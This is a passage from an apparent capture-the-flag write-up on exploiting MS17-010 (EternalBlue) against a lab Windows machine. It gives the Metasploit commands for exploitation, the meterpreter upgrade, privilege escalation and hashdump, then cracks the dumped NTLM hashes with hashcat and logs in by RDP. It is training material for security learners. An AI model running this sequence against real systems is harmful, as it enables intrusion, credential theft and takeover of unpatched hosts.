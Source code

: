 ```
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

We are going to query searchsploit to understand what this vuln is about:
`searchsploit --update && searchsploit CVE-2017-0143`

We start Metasploit with `msfconsole` command.

```
search ms17-010
use 3
setg RHOST target
run
dir
[Ctrl+z][y]

search shell_to_meterpreter
use 0
show options
sessions
set SESSION 1
run
whoami
sessions -i 2
getsystem
getuid
shell
whoami
[Ctrl+z][y]
ps
migrate 3048
hashdump
```
Result:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

[Hashcat Cheat Sheet](https://www.dropbox.com/s/kdklrowv683yq1a/HashcatCheatSheet.v2018.1b%20%282%29.pdf?dl=0)

`hashcat --force -m 1000 crackme.txt /usr/share/wordlists/rockyou.txt -o output.txt`

Password for `Jon` is `alqfna22`. Use this command to connect via Remote Desktop: `xfreerdp target`. As Domain you can enter `local`.

### Day 1 - Going further
